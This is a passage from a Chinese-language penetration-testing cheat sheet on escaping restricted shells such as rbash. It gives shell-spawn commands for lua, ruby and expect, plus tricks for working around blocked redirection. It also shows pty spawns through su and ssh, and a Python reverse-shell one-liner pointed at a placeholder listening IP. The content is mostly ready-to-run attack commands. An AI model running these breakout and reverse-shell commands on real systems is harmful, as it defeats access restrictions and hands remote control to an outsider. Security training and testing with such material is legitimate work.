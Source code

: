 ### 6.4. lua
```bash
os.execute('/bin/sh')
```

### 6.5. ruby
```bash
exec "/bin/sh"
```
### 6.6. expect
```bash
spwan sh
sh
```

## 7. 小tips
### 7.1. 比rbash更容易遇到的问题是当前路径异常问题
```bash
echo $PATH  ###一般很多命令基础执行不了的时候，都是路径异常，查看该值可验证    
export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin   ####修复
```
![assets/Pasted image 20241222132234.png](/img/user/24-%E6%B8%97%E9%80%8F/%E6%B8%97%E9%80%8F%E5%A7%BF%E5%8A%BF%E5%BA%93/assets/Pasted%20image%2020241222132234.png)
### 7.2. 不能使用 > ，>>等字符重定向写文件
```bash
echo 'script code' | tee scriptfile
```
### 7.3. su切换用户逃逸时执行spawn shell命令
```bash
su -c "python -c  'import pty;pty.spawn(\"/bin/bash\")'" tw
```
### 7.4. ssh 登录时通过spawn shell逃逸
```bash
ssh username@IP  "export TERM=xterm;python -c  'import pty;pty.spawn(\"/bin/bash\")'"
```
### 7.5. 编程语言反弹shell
```python
python -c 'import       socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("LISTENING IP",LISTENING PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
### 7.6. !'sh'
用的比较多的是 ` !/bin/sh ` 和 ` !/bin/bash`;其实还有一个 ` !'sh' ` --->由于没有了 ` '/' `；有时候能够达到很好的绕过效果
![assets/Pasted image 20241222132458.png](/img/user/24-%E6%B8%97%E9%80%8F/%E6%B8%97%E9%80%8F%E5%A7%BF%E5%8A%BF%E5%BA%93/assets/Pasted%20image%2020241222132458.png)